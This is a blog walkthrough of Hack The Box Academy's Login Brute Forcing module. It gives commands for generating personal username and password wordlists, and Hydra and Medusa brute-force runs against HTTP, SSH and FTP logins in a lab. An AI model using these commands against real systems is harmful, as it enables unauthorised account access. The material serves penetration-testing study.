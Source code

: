 ```yaml
---
layout: post
title:  "Hack The Box - Academy - Login Brute Forcing"
description: "Explore this detailed walkthrough of Hack The Box Academy's Login Brute Forcing module. Learn effective techniques to perform login brute-force attacks, discover common vulnerabilities, and elevate your penetration testing skills with step-by-step insights from Zwarts Sec."
date:   2024-10-26 10:51
image:  /images/htb/login-brute-forcing/logo.png
tags:   [authentication,cbbh,brute-forcing]
categories: [htbacademy]
---
```


>
<b>Links:</b>
<br/>
<a href="https://academy.hackthebox.com/module/details/57">Login Brute Forcing</a><br/>
<a href="https://jacozwarts.github.io/images/htb/login-brute-forcing/Login_Brute_Forcing_Module_Cheat_Sheet.pdf">Login Brute Forcing - Cheat Sheet</a><br/>
<a href="https://academy.hackthebox.com/module/57/section/504">Hydra - Cheat Sheet</a><br/>

<br/>

### Notes:
#### Command to match passwords with min requirements using grep:

```
grep -E '^.{8,}$' {TEXTFILE.txt} > {RESULTS.txt}
```

#### Custom Wordlists:
```
sudo apt install ruby -y
```
```
git clone https://github.com/urbanadventurer/username-anarchy.git
```
`Use username-anarchy to generate possible usernames:`
```
./username-anarchy Jan van Zyl > jan_van_zyl_usernames.txt
```

![username-anarchy result](/images/htb/login-brute-forcing/username-anarchy-result.png)

`Install cupp`:
```
sudo apt install cupp -y
```
```
cupp -i
```

`Grep command to filter passwords to meet min requirements:`
```
grep -E '^.{6,}$' jan_van_zyl.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jan_van_zyl-filtered.txt
```
`Hydra post example:`
```
hydra -L jan_van_zyl_usernames.txt -P jan_van_zyl-filtered.txt IP -s PORT -f http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```
<hr/>

## Skills Assessment
><b>Overview:</b>
The first part of the skills assessment will require you to brute-force the the target instance. Successfully finding the correct login will provide you with the username you will need to start Skills Assessment Part 2.

### Part 1: What is the password for the basic auth login?

```
hydra -L /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt {TARGET_IP} http-get / -s {TARGET_PORT}
```

### Part 2: What is the username of the ftp user you find via brute-forcing?

#### Bruteforce ssh using medusa

```
medusa -h {TARGET_IP} -n {TARGET_PORT} -u {PART1_USERNAME} -P /usr/share/wordlists/seclists/Passwords/2023-200_most_used_passwords.txt -M ssh -t 3
```

`Connect to ssh`
```
ssh {ssh_username}@{TARGET_IP} -p {TARGET_PORT}
```

To find the username I investigated the `/etc/passwd` file.

#### Bruteforce ftp using medusa:
```
medusa -h 127.0.0.1 -u {USERNAME} -P {PASSWORD_WORDLIST} -M ftp -t 5
```
`Note use the password.txt file found on the box.`

### Part 2: What is the flag contained within flag.txt

#### Connect to ftp:
```
ftp ftp://{USERNAME}:{PASSWORD}@{SERVER}
```

#### Download flag.txt
```
get <remote-file-path> <local-file-path>
```
<hr/>